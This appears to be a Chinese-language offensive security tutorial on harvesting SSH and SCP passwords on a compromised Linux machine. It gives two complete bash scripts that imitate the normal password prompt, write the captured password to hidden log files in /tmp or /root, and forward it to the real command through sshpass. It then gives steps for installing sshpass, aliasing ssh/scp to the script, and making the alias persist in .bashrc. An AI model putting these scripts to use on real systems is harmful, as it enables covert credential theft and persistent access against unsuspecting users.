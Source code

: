 ````

layout: default

````



# Linux抓取SSH/SCP密码

## 0x01总体思路

​	大体思路是基于Linux的alias别名特性，通过创建ssh/scp的别名修改系统的ssh/scp命令指向自定义的恶意脚本，当用户在执行ssh/scp命令时实际执行的是指定的恶意脚本，脚本将中提示用户输入密码并保存本地，然后再调用系统中正常的ssh/scp命令完成用户指令。（抓密码思路源于klion知识星的分享）

## 0x02 SSH密码抓取

​	先给出脚本：

```shell
#!/bin/bash 
if [ $# != "1" ]		#判断是否只有一个参数 
then
	/usr/bin/ssh 
else
	echo -e "${1}'s password: \c" 
	read -s pass echo $1":"$pass >> /tmp/.log 
	echo "" 
	sshpass -p "$pass" /usr/bin/ssh ${1} 
fi
```

​	脚本中首先判断用户输入的参数是否为1个，其实此处还可以加多一层判断，看用户输入的是否是 `user@ip`的格式，防止用户输入错误地参数脚本同样提示输入密码。

​	根据用户的参数伪造ssh的回显，提示用户输入密码，并记录保存到本地/tmp/.log文件中。

​	最后因为正常调用ssh命令时需要交互式输入密码，所以利用sshpass工具来将密码发送给ssh命令，从而正常执行ssh功能



## 0x03 SCP密码抓取

​	脚本：

```shell
#! /bin/bash
str="@"
for var in $*
do
        if [[ $var == *$str* ]];then
                arr=(${var//:/ })
                echo -e "${arr[0]}'s password: \c"
                read -s pass
                echo $pass >> /root/.log
                echo ""
        fi
done
sshpass -p "$pass" /usr/bin/scp ${*}
```

​	抓取scp密码原理与ssh的是一样的，只是脚本相对来说复杂一点点，因为scp的参数多且位置不固定，所以需要判断`user@ip`参数出现在第几个参数，然后根据该参数的内容来伪造正常的scp输入密码提示。

## 0x04 具体操作

	1. 首先需要在目标机器上安装 `sshpass`工具，可以使用 `yum/apt-get`等包管理工具安装也可以下载源码编译安装。
 	2. 修改目标机器 alias , 比如 `alias ssh=/root/.scp`。可以在.bashrc文件中添加实现持久化抓取。
 	3. 将脚本放到指定的位置。

​	

